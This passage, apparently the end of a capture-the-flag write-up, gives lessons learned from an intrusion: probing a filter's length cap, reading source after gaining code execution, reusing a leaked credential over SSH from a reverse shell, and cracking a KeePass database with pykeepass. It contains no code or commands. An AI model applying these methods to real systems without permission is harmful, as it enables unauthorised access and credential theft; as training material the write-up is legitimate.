- **Isolate filter dimensions separately before concluding a vector is dead.** Our first full payload failed and we initially assumed character filtering; testing length and characters as separate variables showed it was actually a length cap, something we would have missed by only varying the payload's content.
- **Read the application's own source as soon as you have any code-execution primitive.** It turned a guessing game about the filter's exact rules into a one-line regex, and immediately surfaced the leaked `sysadmin` credential we'd otherwise have had to stumble onto.
- **A failed `su` is not proof of a bad password.** Testing the same credential over a different channel (SSH instead of a non-interactive reverse shell) resolved the ambiguity in one step instead of discarding a valid lead.
- **Don't assume your tooling is complete just because the binary exists.** `john` and `hashcat` were both present on our attacker image, but their KDBX4 support (`keepass2john`, `keepass2hashcat`) wasn't. `pykeepass` parsing the format natively meant we never needed that tooling at all, which is worth trying earlier next time a `*2john`/`*2hashcat` helper comes up short.

## References

- [Penelope](https://github.com/brightio/penelope), used as the reverse-shell listener.
- [pykeepass](https://github.com/libkeepass/pykeepass), used to crack and read `infrastructure.kdbx`.
